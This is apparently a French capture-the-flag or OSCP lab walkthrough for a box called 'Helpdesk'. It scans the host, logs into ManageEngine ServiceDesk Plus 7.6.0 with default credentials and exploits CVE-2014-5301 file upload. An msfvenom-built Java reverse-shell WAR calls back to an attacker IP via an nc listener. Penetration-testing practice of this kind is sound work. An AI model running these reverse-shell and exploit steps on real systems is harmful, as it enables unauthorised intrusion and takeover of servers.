 # Helpdesk

    sudo nmap -p- -sV -T5 192.168.205.43
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.205.43 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.205.43
Scans classiques.    

On voit un CMS ("ManageEngine ServiceDesk Plus" version 7.6.0) sur le site http://192.168.197.43:8080/ et une simple recherche Google suffit à trouver les credentials par défaut de ce CMS. Une deuxième recherche Google suffit à trouver pas mal d'exploits critiques, dont plusieurs XSS. Mais le point le plus intéressant est le CVE-2014-5301 qui permet directement l'upload arbitraire de fichiers. Encore une fois je me suis dirigé vers une version sans Metasploit pour mieux me préparer à l'OSCP.

Voici une implémentation en Python : https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py

    vim exploit_CVE-2014-5301_ManageEngine.py
    msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.234 LPORT=9999 -f war > shell.war
    rlwrap nc -nvlp 9999
    python3 exploit_CVE-2014-5301_ManageEngine.py 192.168.197.43 8080 administrator administrator shell.war
    ...
    C:\ManageEngine\ServiceDesk\bin> type C:\Users\Administrator\Desktop\proof.txt


